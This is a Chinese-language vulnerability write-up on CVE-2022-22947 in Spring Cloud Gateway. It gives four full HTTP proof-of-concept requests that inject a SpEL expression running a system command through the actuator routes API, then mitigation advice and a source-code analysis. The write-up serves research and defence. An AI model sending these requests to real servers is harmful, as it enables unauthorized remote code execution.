

# CVE-2022-22947 Spring Cloud Gateway Actuator API SpEL表达式注入命令执行

# 0x00 概述
[/gateway actuator endpoint](https://docs.spring.io/spring-cloud-gateway/docs/3.0.6/reference/html/#actuator-api) 允许以 JMX 或 Web 访问，可构造恶意请求创建新路由，同时利用路由的filter功能注入spel表达式，从而造成表达式注入执行任意代码。

version <= 3.0.6，3.1.0

# 0x01 复现

需要分包发送

poc1 包含恶意Spel的路由

```http
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 331

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}

```

poc2 5 应用路由（执行命令、刷新路由更改）

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

poc3 查看执行结果

```http
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

poc4 删除添加的路由

```http
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

# 0x03 补丁

禁止外界访问 Spring Cloud Gateway actuator 端点 ，修改 spring 配置将 management.endpoint.gateway.enabled 置为 false，并重启服务使配置生效。

# 0x04 分析

在官方文档中对 poc 使用到的 API 进行了描述 https://docs.spring.io/spring-cloud-gateway/docs/3.0.6/reference/html/#actuator-api

filters 的值即通过 [GatewayFilter Factories](https://docs.spring.io/spring-cloud-gateway/docs/3.0.6/reference/html/#gatewayfilter-factories) 指定


下载源码，全局搜索 `StandardEvaluationContext` ，定位到 `org.springframework.cloud.gateway.support.ShortcutConfigurable#getValue()`



打断点，继续调试几步可以看到加载了 `AddResponseHeaderGatewayFilterFactory`，定位到该接口，查看调用关系，与断点位置形成调用


而在 `org.springframework.cloud.gateway.filter.factory.AddResponseHeaderGatewayFilterFactory#apply()` 会传入一个 `NameValueConfig` 类型的值，存在 name、value 字段（即对应poc）


到这里可以看到从 `AddResponseHeaderGatewayFilterFactory` 传入的值执行 getValue() 时会最终触发到 `org.springframework.cloud.gateway.support.ShortcutConfigurable#getValue()` 中的Spel表达式

**参考**

https://xz.aliyun.com/t/11044

https://www.cnpanda.net/sec/1159.html
